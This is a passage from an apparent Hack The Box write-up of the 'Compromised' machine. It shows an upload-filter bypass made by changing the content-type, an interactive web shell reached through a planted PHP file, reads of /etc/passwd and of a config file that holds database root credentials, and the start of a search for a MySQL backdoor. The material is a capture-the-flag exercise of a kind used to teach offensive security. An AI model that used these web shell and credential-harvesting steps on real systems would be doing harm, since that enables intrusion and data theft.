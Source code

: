 ![webapp admin creds](/assets/img/htb/compromised/burp.png)

I just modified content-type to xml and this was enough to bypass the filter and upload the file.

I used `webwrap` to got interactive web shell:

```
sh4ck@kali:~/Documents/webwrap$ rlwrap python3 webwrap.py http://compromised.htb/shop/vqmod/xml/shacksh.php?c=WRAP

www-data@compromised:/var/www/html/shop/vqmod/xml$
```

After a bit long enumeration phase i got usefull info that could lead me to obtain user access.

### MYSQL Backdoor

Reading /etc/passwd file I noticed that the mysql user had /bin/bash and as the machine’s name suggest, this might be a hint that this service has some kind of backdoor :

```
www-data@compromised:/var/www/html/shop/vqmod/xml$ cat /etc/passwd
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```
During enumeration i found a config file containing database credentials:
```
www-data@compromised:/var/www/html/shop/includes$ cat config.inc.php
// Database                                                                                                                
  define('DB_TYPE', 'mysql');                                                                                              
  define('DB_SERVER', 'localhost');                                                                                        
  define('DB_USERNAME', 'root');                                                                                           
  define('DB_PASSWORD', 'changethis');                                                                                     
  define('DB_DATABASE', 'ecom');                                                                                           
  define('DB_TABLE_PREFIX', 'lc_');                                                                                        
  define('DB_CONNECTION_CHARSET', 'utf8');                                                                                 
  define('DB_PERSISTENT_CONNECTIONS', 'false');
```
Searchingon gooogle about mysql backdoor I arrived to this article (https://recipeforroot.com/mysql-to-system-root/) which pushed me in right direction:
